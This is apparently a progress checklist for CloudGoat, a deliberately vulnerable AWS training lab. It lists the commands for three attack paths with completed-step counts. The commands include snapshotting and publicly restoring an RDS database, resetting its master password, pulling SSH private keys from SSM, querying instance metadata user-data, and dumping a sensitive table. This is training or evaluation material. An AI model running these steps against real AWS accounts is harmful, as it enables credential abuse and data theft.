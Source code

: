 # Relative path
## CodeBuild (6a)
- [ ] aws configure --profile Solo
- [ ] aws codebuild batch-get-projects --names <project\> --profile Solo
- [x] aws configure --profile Calrissian
- [ ] aws rds create-db-snapshot --db-instance-identifier <instanceID\> --db-snapshot-identifier cloudgoat --profile Calrissian
- [ ] aws rds restore-db-instance-from-db-snapshot --db-instance-identifier <DbInstanceID\> --db-snapshot-identifier <snapshotId\> --db-subnet-group-name <db subnet group\> --publicly-accessible --vpc-security-group-ids <ec2-security group\> --profile Calrissian
- [x] aws rds modify-db-instance --db-instance-identifier <DbName\> --master-user-password cloudgoat --profile Calrissian
- [x] psql postgresql://cgadmin@pwnedfinal.crkxmju52zsx.us-east-1.rds.amazonaws.com:5432/postgres
- [x] select * from sensitive_information

Steps: 8
Completed: 4

## SSM A (6b)

- [ ] aws ssm get-parameter --name <private key name\> --profile solo
- [x] ssh -i ec2_ssh_key ubuntu@<instance ip\>
- [x] (Assume EC2 role)
- [ ] aws lambda list-functions --region us-east-1
- [x] psql -h <rds db host/ip\> -U cgadmin -d cloudgoat
- [x] select * from sensitive_information

Steps: 6
Completed: 4

## SSM B (6c)

- [ ] aws ssm get-parameter --name <private key name\> --profile solo
- [x] ssh -i ec2_ssh_key ubuntu@<instance ip\>
- [ ] curl http://169.254.169.254/latest/user-data
- [x] psql -h <rds db host/ip\> -U cgadmin -d cloudgoat
- [x] select * from sensitive_information

Steps: 5
Completed: 3

# Absolute path
## CodeBuild (6a)

- [ ] aws configure --profile Solo
- [ ] aws codebuild list-projects --profile Solo
- [ ] aws codebuild batch-get-projects --names <project\> --profile Solo
- [x] aws configure --profile Calrissian // Assume Calrissian
- [ ] aws rds describe-db-instances --profile Calrissian
- [ ] aws rds create-db-snapshot --db-instance-identifier <instanceID\> --db-snapshot-identifier cloudgoat --profile Calrissian
- [ ] aws rds describe-db-subnet-groups --profile Calrissian
- [ ] aws ec2 describe-security-groups --profile Calrissian
- [ ] aws rds restore-db-instance-from-db-snapshot --db-instance-identifier <DbInstanceID\> --db-snapshot-identifier <snapshotId\> --db-subnet-group-name <db subnet group\> --publicly-accessible --vpc-security-group-ids <ec2-security group\> --profile Calrissian
- [x] aws rds modify-db-instance --db-instance-identifier <DbName\> --master-user-password cloudgoat --profile Calrissian
- [x] psql postgresql://cgadmin@pwnedfinal.crkxmju52zsx.us-east-1.rds.amazonaws.com:5432/postgres
- [ ] \l
- [ ] \c securedb
- [x] select * from sensitive_information

Steps: 14
Completed: 4

## SSM A (6b)

- [ ] aws ssm describe-parameters --profile solo
- [ ] aws ssm get-parameter --name <private key name> --profile solo
- [ ] echo -e "<private key\>" > ec2_ssh_key
- [ ] chmod 400 ec2_ssh_key
- [ ] aws ssm get-parameter --name <public key name\> --profile solo
- [ ] echo -e "<public key\>" > ec2_ssh_key.pub
- [ ] aws ec2 describe-instances --profile solo
- [x] ssh -i ec2_ssh_key ubuntu@<instance ip\>
- [x] (Assume EC2 role)
- [ ] sudo apt update && sudo apt install awscli -y
- [ ] aws lambda list-functions --region us-east-1
- [ ] aws rds describe-db-instances --profile solo
- [x] psql -h <rds db host/ip\> -U cgadmin -d cloudgoat // Inferred
- [ ] \d // Inferred
- [x] select * from sensitive_information; // Inferred

Steps: 15
Completed: 4

## SSM B (6c)

- [ ] aws ssm describe-parameters --profile solo
- [ ] aws ssm get-parameter --name <private key name\> --profile solo
- [ ] echo -e "<private key\>" > ec2_ssh_key
- [ ] chmod 400 ec2_ssh_key
- [ ] aws ssm get-parameter --name <public key name\> --profile solo
- [ ] echo -e "<public key\>" > ec2_ssh_key.pub
- [ ] aws ec2 describe-instances --profile solo
- [x] ssh -i ec2_ssh_key ubuntu@<instance ip\>
- [ ] curl http://169.254.169.254/latest/user-data
- [x] psql -h <rds db host/ip\> -U cgadmin -d cloudgoat
- [ ] \d
- [x] select * from sensitive_information;

Steps: 12
Completed: 3
